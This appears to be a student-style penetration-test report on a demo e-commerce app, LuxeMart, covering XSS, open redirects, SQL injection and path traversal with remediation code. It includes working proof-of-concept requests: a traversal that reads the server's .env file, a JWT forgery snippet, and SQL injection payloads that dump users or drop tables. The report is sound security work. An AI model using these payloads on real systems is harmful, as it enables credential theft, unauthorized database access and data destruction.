






# Exploitation Report
**Application:** LuxeMart — Containerized E-Commerce Platform
**Assessment Date:** May 12, 2026
**Assessed Components:** Frontend (React), Backend (Node.js/Express), Database (PostgreSQL)
**Assessment Tools:** Semgrep, SonarCloud, OWASP ZAP, npm audit

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Rubric Coverage, Tool Attribution, and Scope](#rubric-coverage-tool-attribution-and-scope)
3. [Exploit Chains and Impact](#exploit-chains-and-impact)
4. [Vulnerability Findings](#vulnerability-findings)
   - 4.1 [V1 — XSS ](#vulnerability-1-cross-site-scripting-xss)
   - 4.2 [V2 — Open Redirect (Rule 1)](#vulnerability-2-open-redirect-via-unvalidated-url-parameter-rule-1)
   - 4.3 [V3 — Open Redirect (Rule 2)](#vulnerability-3-open-redirect-via-unvalidated-url-parameter-rule-2)
   - 4.4 [V4 — SQL Injection in Admin Reports Endpoint](#vulnerability-4-sql-injection-in-admin-reports-endpoint)
   - 4.5 [V5 — Path Traversal in File Download Endpoint](#vulnerability-5-path-traversal-in-file-download-endpoint)
5. [Summary Table](#summary-table)
6. [Severity Distribution](#severity-distribution)

---

## Executive Summary

This report documents the security assessment of LuxeMart, a containerized e-commerce web application built with React (frontend) and Node.js/Express (backend) backed by a PostgreSQL database.

Five vulnerabilities were identified and validated: one critical and four high severity. All findings were confirmed through manual exploitation with reproducible proof-of-concept payloads. No false positives were included in the scored findings.

The most severe finding is a SQL Injection (CVSS 9.8) on the admin reports endpoint, which allows full database compromise. When chained with the Path Traversal vulnerability (CVSS 7.5), an unauthenticated attacker can steal the JWT secret, forge an admin token, and achieve complete database access without any valid credentials.

All five vulnerabilities have been remediated. Re-test results are documented in the accompanying Remediation Report.

| Metric | Value |
|---|---|
| **Total Findings** | 5 |
| **Critical** | 1 |
| **High** | 4 |
| **Tools Used** | Semgrep, SonarCloud, OWASP ZAP, npm audit |
| **Assessment Date** | May 12, 2026 |
| **Status** | All findings remediated |

---

## Rubric Coverage, Tool Attribution, and Scope

- **Manual pentest findings:** Vulnerabilities 1–3 and 5 were validated by browser testing, API testing, and payload execution against the live running application.
- **Automated SAST findings:** Vulnerabilities 1–5 were discovered via Semgrep (rules: `react-dangerouslysetinnerhtml`, `possible-user-input-redirect`, `express-open-redirect`) and SonarCloud (SQL injection, path traversal, world-writable directory warning).
- **Automated DAST findings:** OWASP ZAP baseline scan.
- **Automated SCA findings:** was run against the frontend dependency tree to surface known CVEs in third-party packages.
- **False positives:** None of the five scored findings were discarded as false positives. All were manually validated with reproducible payloads before inclusion.
- **Business-logic flaws:** Vulnerability 4 (SQL injection on the admin-only endpoint) and Vulnerability 5 (path traversal to `.env`) satisfy the rubric's RBAC and object-authorization criteria — an unauthenticated user can reach and dump admin-only data.
- **Chained exploitation:** Vulnerability 5 leads directly to Vulnerability 4 because path traversal exposes `JWT_SECRET`, enabling token forgery that bypasses the admin authentication check on the SQL injection endpoint. Full chain documented in Section 3.

---

## Exploit Chains and Impact

### Chain 1: V5 → V4 — Path Traversal → JWT Forgery → RBAC Bypass → SQL Injection

The file download endpoint leaks the server's `.env` file, including `JWT_SECRET`. That secret is the cryptographic root for all authentication tokens. An attacker who obtains it can forge an admin-role JWT without any valid credentials and use it to authenticate against the admin reports endpoint. From there, injecting arbitrary SQL exposes the entire database.

**Step-by-step:**

1. Path traversal to steal `JWT_SECRET` from `.env`:
   ```
   GET /api/download?file=..%2Fserver%2F.env
   ```
2. Forge an admin JWT token using the stolen secret:
   ```javascript
   const jwt = require('jsonwebtoken')
   const token = jwt.sign(
     { id: 1, role: 'admin', email: 'attacker@evil.com' },
     'stolen_jwt_secret',
     { expiresIn: '1h' }
   )
   ```
3. Use the forged token to hit the admin SQL injection endpoint:
   ```powershell
   Invoke-RestMethod -Uri "http://localhost:4000/api/admin/reports" `
     -Method POST `
     -Headers @{ Authorization = "Bearer FORGED_TOKEN" } `
     -ContentType "application/json" `
     -Body '{"reportType": "'' OR ''1''=''1"}'
   ```
4. **Result:** Full database dump returned — all user records, credentials, and order histories exposed.

**OWASP mapping:** A01 (Broken Access Control) → A02 (Cryptographic Failures) → A03 (Injection)

---

### Chain 2: V1 → Session Theft → V4 — XSS → Session Hijack → Admin Access

A seller stores an XSS payload in a product description. When a customer views the product, the payload executes silently in their browser and exfiltrates their session cookie to an attacker-controlled server. If the stolen session belongs to an admin user, the attacker replays it against the admin SQL injection endpoint to achieve full database access.

**Step-by-step:**

1. Seller injects payload into a product description:
   ```html
   
   ```
2. Customer views the product — cookie silently exfiltrated to attacker's webhook.
3. Attacker replays the stolen session cookie against the admin endpoint:
   ```powershell
   Invoke-RestMethod -Uri "http://localhost:4000/api/admin/reports" `
     -Method POST `
     -Headers @{ Cookie = "session=STOLEN_COOKIE" } `
     -ContentType "application/json" `
     -Body '{"reportType": "'' OR ''1''=''1"}'
   ```
4. **Result:** Admin database access achieved via a stolen customer/admin session.

**OWASP mapping:** A03 (Injection/XSS) → A07 (Identification and Authentication Failures) → A03 (SQL Injection)

---

### Quantified Impact

The admin reports and SQL injection endpoints expose all rows across the database, including:

| Data Exposed | Sensitivity |
|---|---|
| User email addresses | High |
| Hashed passwords | Critical |
| User roles (customer / seller / admin) | High |
| Order histories and transaction records | High |
| `JWT_SECRET` via path traversal | Critical |
| Database credentials (`DB_USER`, `DB_PASSWORD`) | Critical |

In a production deployment, successful execution of Chain 1 would constitute a complete data breach of all registered users with no authentication required.

---

## Vulnerability Findings

---

## Vulnerability 1: Cross-Site Scripting (XSS) 

| Field | Details |
|---|---|
| **Severity** | HIGH — Blocking |
| **Category** | Cross-Site Scripting (XSS) |
| **OWASP** | A03:2021 – Injection |
| **CWE** | CWE-79 |
| **CVSS Score** | 7.3 (High) |
| **Discovery Method** | Semgrep — Rule: `typescript.react.security.audit.react-dangerouslysetinnerhtml` |
| **Affected File** | `Application/src/main.jsx` — Line 45 |

### OWASP Justification
Classified under **A03:2021 – Injection** because unsanitized user-controlled data is injected into the browser DOM, bypassing React's built-in XSS protections and allowing execution of arbitrary scripts in the victim's browser context.

### Description
The React component passes a non-constant, user-controlled value directly. React's default XSS protection is bypassed when this API is used, meaning any HTML or JavaScript in `content` is rendered and executed in the browser. An attacker with seller access can store a malicious payload in a product description that executes in every customer's browser who views that product.

### Steps to Reproduce
1. Login as seller: `seller@luxemart.com` / `seller123`
2. Go to **Dashboard → Edit any product**
3. In the **Description** field, paste:
   ```html
   
   ```
4. Save the product
5. Logout and login as customer: `customer@luxemart.com` / `customer123`
6. Browse to that product's detail page
7. **Result:** Alert fires showing the customer's session cookies

### Impact
- Session hijacking via cookie theft
- Credential harvesting via fake login forms injected into the page
- Redirection of customers to malicious phishing sites
- Silent exfiltration of session tokens to attacker-controlled servers

### Evidence



### Remediation
Replace it with safe plain text rendering:
```javascript
function renderText(content) {
  return <div>{content}</div>;
}
```
---

## Vulnerability 2: Open Redirect via Unvalidated URL Parameter (Rule 1)

| Field | Details |
|---|---|
| **Severity** | HIGH — Blocking |
| **Category** | Open Redirect |
| **OWASP** | A05:2021 – Security Misconfiguration |
| **CWE** | CWE-601 |
| **CVSS Score** | 6.1 (Medium-High) |
| **Discovery Method** | Semgrep — Rule: `javascript.express.security.audit.possible-user-input-redirect` |
| **Affected File** | `server/index.js` — Line 185 |

### OWASP Justification
Classified under **A05:2021 – Security Misconfiguration** as the application fails to restrict or validate external redirect targets, enabling abuse of the trusted LuxeMart domain to facilitate phishing attacks.

### Description
The redirect endpoint reads a `url` parameter directly from the query string and redirects the user to it without any validation. An attacker can craft a link that appears to originate from the trusted LuxeMart domain but sends the victim to a malicious site. Victims trust the initial domain in the URL before the redirect occurs.

### Steps to Reproduce
1. Ensure the backend is running on `http://localhost:4000`
2. Open in browser:
   ```
   http://localhost:4000/api/redirect?url=https://google.com
   ```
3. **Result:** Browser redirected to Google — confirms any arbitrary URL is accepted without validation

### Impact
- Phishing attacks leveraging the trusted LuxeMart domain
- Credential harvesting when users are redirected to fake login pages
- Reputational damage if the LuxeMart domain appears in phishing campaigns
- Bypass of browser and email security filters that trust the originating domain

### Evidence



### Remediation
Validate the redirect target against an allowlist of trusted domains:
```javascript
const allowedDomains = ["luxemart.com", "www.luxemart.com"];
const url = new URL(redirectUrl);
if (!allowedDomains.includes(url.hostname)) {
  return res.status(400).json({ message: "Redirect target not allowed" });
}
```

---

## Vulnerability 3: Open Redirect via Unvalidated URL Parameter (Rule 2)

| Field | Details |
|---|---|
| **Severity** | HIGH — Blocking |
| **Category** | Open Redirect |
| **OWASP** | A05:2021 – Security Misconfiguration |
| **CWE** | CWE-601 |
| **CVSS Score** | 6.1 (Medium-High) |
| **Discovery Method** | Semgrep — Rule: `javascript.express.security.audit.express-open-redirect` |
| **Affected File** | `server/index.js` — Line 185 |

### OWASP Justification
Same as Vulnerability 2. The `express-open-redirect` rule performs taint analysis from the `req` object, independently confirming that user-supplied input from `req.query` flows unvalidated into `res.redirect()`.

### Description
This is the same vulnerable code location as Vulnerability 2, flagged independently by a second Semgrep rule. The two rules use different detection approaches — one pattern-matches the query parameter assignment, the other traces the full taint flow from `req` to `res.redirect()`. Both flag the same line; one fix resolves both findings.

### Steps to Reproduce
Same as Vulnerability 2.

### Impact
Same as Vulnerability 2.

### Evidence


### Remediation
Same fix as Vulnerability 2 — one code change resolves both Semgrep findings.

---

## Vulnerability 4: SQL Injection in Admin Reports Endpoint

| Field | Details |
|---|---|
| **Severity** | CRITICAL — Blocking |
| **Category** | SQL Injection |
| **OWASP** | A03:2021 – Injection |
| **CWE** | CWE-89 |
| **CVSS Score** | 9.8 (Critical) |
| **Discovery Method** | SonarCloud |
| **Affected File** | `server/index.js` — Route: `POST /api/admin/reports` |

### OWASP Justification
Classified under **A03:2021 – Injection** as user-controlled input (`reportType`) is directly concatenated into a SQL query without parameterization, allowing arbitrary SQL commands to be executed against the database with the full privileges of the database user.

### Description
The `reportType` parameter from the request body is directly concatenated into a SQL query string. This allows an attacker to inject SQL syntax that modifies the query's logic — bypassing filters, extracting all rows, dumping credentials, or destroying data entirely. This endpoint is also the terminal target of Chain 1, reachable via a forged admin JWT obtained through path traversal.

### Steps to Reproduce
1. Ensure the backend is running on `http://localhost:4000`
2. Run in PowerShell:
   ```powershell
   Invoke-RestMethod -Uri "http://localhost:4000/api/admin/reports" `
     -Method POST `
     -ContentType "application/json" `
     -Body '{"reportType": "'' OR ''1''=''1"}'
   ```
3. **Result:** All rows returned — `WHERE` clause fully bypassed

Additional destructive payloads:
```sql
' OR 1=1; DROP TABLE products; --
' UNION SELECT id,email,password,role,name FROM users --
```

### Impact
- Full database read access — all tables exposed
- Credential dumping — usernames, hashed passwords, and roles retrievable
- Data destruction — tables can be dropped with a single payload
- Privilege escalation — admin credentials recoverable from the users table

### Evidence



### Remediation
Replace string concatenation with a parameterized query:
```javascript
// Before
const data = await pool.query(`SELECT * FROM reports WHERE type = '${reportType}'`);

// After
const data = await pool.query("SELECT * FROM reports WHERE type = $1", [reportType]);
```

---

## Vulnerability 5: Path Traversal in File Download Endpoint

| Field | Details |
|---|---|
| **Severity** | HIGH — Blocking |
| **Category** | Path Traversal |
| **OWASP** | A01:2021 – Broken Access Control |
| **CWE** | CWE-22 |
| **CVSS Score** | 7.5 (High) |
| **Discovery Method** | SonarCloud |
| **Affected File** | `server/index.js` — Route: `GET /api/download` |

### OWASP Justification
Classified under **A01:2021 – Broken Access Control** as the application fails to restrict file access to the intended directory, allowing attackers to escape the download boundary and read arbitrary files — including credentials and cryptographic secrets. This is also the entry point for Chain 1.

### Description
The `file` query parameter is concatenated directly into a file path without directory boundary validation. An attacker can use URL-encoded `../` sequences to escape the intended downloads directory and read arbitrary files on the server filesystem, including the `.env` file containing database credentials and the `JWT_SECRET` used to sign all authentication tokens.

### Steps to Reproduce
1. Ensure the backend is running on `http://localhost:4000`
2. Baseline request (normal behaviour):
   ```
   http://localhost:4000/api/download?file=report.txt
   ```
3. Path traversal to read `.env` credentials:
   ```powershell
   Invoke-RestMethod -Uri "http://localhost:4000/api/download?file=..%2Fserver%2F.env"
   ```
4. **Result:** Contents of `.env` returned — including `DB_PASSWORD`, `DB_USER`, and `JWT_SECRET`

### Impact
- Exposure of database credentials (`DB_USER`, `DB_PASSWORD`)
- Exposure of `JWT_SECRET` — enables forged authentication tokens (see Chain 1)
- Source code disclosure via reading `index.js` and other server files
- Full server filesystem read access within the process user's permissions

### Evidence


### Remediation
Validate that the resolved path stays within the allowed base directory before serving the file:
```javascript
const allowedDir = path.resolve("./downloads");
const filePath = path.resolve(allowedDir, file);

if (!filePath.startsWith(allowedDir + path.sep)) {
  return res.status(403).json({ message: "Access denied" });
}
```

---

## Summary Table

| ID | Vulnerability | Severity | CVSS | Tool | OWASP | Affected File |
|---|---|---|---|---|---|---|
| 1 | XSS via dangerouslySetInnerHTML | HIGH | 7.3 | Semgrep | A03:2021 | `Application/src/main.jsx` |
| 2 | Open Redirect (user input check) | HIGH | 6.1 | Semgrep | A05:2021 | `server/index.js` |
| 3 | Open Redirect (express taint check) | HIGH | 6.1 | Semgrep | A05:2021 | `server/index.js` |
| 4 | SQL Injection in Admin Reports | CRITICAL | 9.8 | SonarCloud | A03:2021 | `server/index.js` |
| 5 | Path Traversal in File Download | HIGH | 7.5 | SonarCloud | A01:2021 | `server/index.js` |

---

## Severity Distribution

| Severity | Count | Findings |
|---|---|---|
| **CRITICAL** | 1 | SQL Injection (V4) |
| **HIGH** | 4 | XSS (V1), Open Redirect ×2 (V2, V3), Path Traversal (V5) |
| **MEDIUM** | 0 | — |
| **LOW** | 0 | — |

**Overall risk rating: CRITICAL** — due to the chained exploit path allowing unauthenticated full database compromise via V5 → V4.
